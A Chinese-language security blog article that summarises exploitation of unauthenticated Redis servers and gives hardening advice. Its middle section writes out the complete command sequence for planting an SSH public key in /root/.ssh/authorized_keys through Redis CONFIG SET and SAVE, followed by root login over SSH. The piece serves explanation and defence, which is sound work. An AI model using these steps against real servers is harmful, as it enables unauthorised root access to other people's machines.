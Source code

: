```yaml
---
title: Redis 未授权访问漏洞利用总结
date: 2017-07-15
author: burlin
source_link: http://www.alloyteam.com/2017/07/12910/
---
```


<!-- {% raw %} - for jekyll -->

# Redis 未授权访问漏洞利用总结

_Redis_ 是一个开源的使用 ANSI C 语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.32.54-1024x441.png)

## **一、**漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### **漏洞描述**

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是 Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问 Redis 服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.33.41.png)

## 二、漏洞利用

首先在本地生产公私钥文件：

     
    $ ssh-keygen –t rsa
     

然后将公钥写入 foo.txt 文件

     
    $ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     

连接 Redis 写入文件

     
    $ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
    $ redis-cli -h 192.168.1.11
    $ 192.168.1.11:6379> config set dir /root/.ssh/
    OK
    $ 192.168.1.11:6379> config get dir
    1) "dir"
    2) "/root/.ssh"
    $ 192.168.1.11:6379> config set dbfilename "authorized_keys"
    OK
    $ 192.168.1.11:6379> save
    OK
     

这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

```ruby
 
$ ssh –i  id_rsa root@192.168.1.11
 
```

可远程利用自己的私钥登录该服务器。

刚刚我们提到公钥登录和 Redis 持久化存放数据操作，这里简单讲下原理

## 详细讲解 ssh 登录 -- 公钥登录

SSH 提供了公钥登录，可以省去输入密码的步骤。

所谓 "公钥登录"，原理很简单，就是用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录 shell，不再要求密码。

这种方法要求用户必须提供自己的公钥。如果没有现成的，可以直接用 ssh-keygen 生成一个：

     
    $ ssh-keygen
     

运行上面的命令以后，系统会出现一系列提示，可以一路回车。其中有一个问题是，要不要对私钥设置口令（passphrase），如果担心私钥的安全，这里可以设置一个。

运行结束以后，在 $HOME/.ssh/ 目录下，会新生成两个文件：id_rsa.pub 和 id_rsa。前者是你的公钥，后者是你的私钥。

通常这时再输入下面的命令，将公钥传送到远程主机 host 上面：

```ruby
 
$ ssh-copy-id user@host
 
```

authorized_keys 文件，远程主机将用户的公钥，保存在登录后的用户主目录的 $HOME/.ssh/authorized_keys 文件中。公钥就是一段字符串，只要把它追加在 authorized_keys 文件的末尾就行了。

## 详细相关的 Redis 持久化命令

Redis 支持 2 种持久化策略：snapshot 方式和 commandlog 方式，前者通过将当前内存数据快照周期性写入 RDB 文件来实现；后者通过在 log 中记录 Redis 进程收到的写操作来实现，下次 Redis 重启时，回放 commandlog 来恢复数据状态。  
这里使用 RDB 文件写入 SSH key 文件，需要设置以下两个 **RDB 相关配置**

dbfilename

指定 RDB 文件名，默认为 dump.rdb

dir

指定 RDB 文件存放目录的路径，若包含多级路径，则相关父路径需事先 mkdir 出来，否则启动失败。

set (key, value)：给数据库中名称为 key 的 string 赋予值 value

最后 Client 使用 save 命令通知 redis 做一次快照持久化

## 修复建议 / 安全建议

#### 1. 禁止一些高危命令

修改 redis.conf 文件，添加

     
    rename-command FLUSHALL ""
    rename-command CONFIG   ""
    rename-command EVAL     ""
     

来禁用远程修改 DB 文件地址

#### 2. 以低权限运行 Redis 服务

为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

     
    $ groupadd -r redis && useradd -r -g redis redis
     

#### 3. 为 Redis 添加密码验证

修改 redis.conf 文件，添加

     
    requirepass mypassword
     

#### 4. 禁止外网访问 Redis

修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

     
    bind 127.0.0.1
     

#### 5. 保证 authorized_keys 文件的安全

为了保证安全，您应该阻止其他用户添加新的公钥。

将 `authorized_keys` 的权限设置为对拥有者只读，其他用户没有任何权限：

     
    $ chmod 400 ~/.ssh/authorized_keys
     

为保证 `authorized_keys` 的权限不会被改掉，您还需要设置该文件的 immutable 位权限：

     
    # chattr +i ~/.ssh/authorized_keys
     

然而，用户还可以重命名 `~/.ssh`，然后新建新的 `~/.ssh` 目录和 `authorized_keys` 文件。要避免这种情况，需要设置 `~./ssh` 的 immutable 位权限：

     
    # chattr +i ~/.ssh
     

**注意:** 如果需要添加新的公钥，需要移除 `authorized_keys` 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。

<!-- {% endraw %} - for jekyll -->